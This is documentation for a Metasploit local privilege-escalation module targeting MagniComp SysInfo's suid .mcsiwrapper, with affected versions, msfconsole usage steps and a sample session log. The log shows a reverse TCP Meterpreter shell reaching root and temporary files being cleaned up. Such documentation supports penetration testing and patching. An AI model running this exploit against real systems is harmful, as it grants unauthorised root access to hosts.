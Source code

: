 ## Vulnerable Application

This module attempts to gain root privileges on systems running
MagniComp SysInfo versions prior to 10-H64.

[MagniComp SysInfo](https://www.magnicomp.com/sysinfo/) is a single system
agent and viewer providing extensive IT asset inventory and configuration
information for most major Linux, UNIX, Apple Macintosh, and Microsoft
Windows platforms as well as leading NAS and SAN Storage Systems and
logical volume software solutions.

The .mcsiwrapper suid executable allows loading a config file using the
'--configfile' argument. The 'ExecPath' config directive is used to set
the executable load path. This module abuses this functionality to set
the load path resulting in execution of arbitrary code as root.

This module has been tested successfully on SysInfo versions:

* 10-GA on Solaris 10u11 x86
* 10-H10 on Debian 8 x86_64
* 10-H32 on Fedora 27 x86_64
* 10-H63 on Fedora 20 x86_64

Installers:

* https://www.magnicomp.com/cgi-bin/mcdownload.cgi
* https://www.magnicomp.com/cgi-bin/mcdownload.cgi/Action=ListDDF


## Verification Steps

1. Start `msfconsole`
1. Get a session
1. Do: `use exploit/multi/local/magnicomp_sysinfo_mcsiwrapper_priv_esc`
1. Do: `set SESSION [SESSION]`
1. Do: `check`
1. Do: `run`
1. You should get a new *root* session


## Options

### SYSINFO_DIR

Path to SysInfo directory (default: `/opt/sysinfo`)

### WritableDir

A writable directory file system path. (default: `/tmp`)


## Scenarios

### MagniComp SysInfo version 10-H63 on Fedora 20 x86_64

```
msf > use exploit/multi/local/magnicomp_sysinfo_mcsiwrapper_priv_esc
msf exploit(multi/local/magnicomp_sysinfo_mcsiwrapper_priv_esc) > set session 1
session => 1
msf exploit(multi/local/magnicomp_sysinfo_mcsiwrapper_priv_esc) > run

[*] Started reverse TCP handler on 172.16.191.244:4444
[*] Using target: Linux
[*] Writing '/tmp/.0rk4PC/vFdxxuBVkh' (21 bytes) ...
[*] Writing '/tmp/.0rk4PC/eoGVzYwGa' (207 bytes) ...
[*] Executing payload...
[*] Sending stage (857352 bytes) to 172.16.191.137
[*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.137:42229) at 2018-02-05 07:38:35 -0500
[+] Deleted /tmp/.0rk4PC/vFdxxuBVkh
[+] Deleted /tmp/.0rk4PC/eoGVzYwGa
[+] Deleted /tmp/.0rk4PC

meterpreter > getuid
Server username: uid=0, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : Fedora 20 (Linux 3.19.8-100.fc20.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```
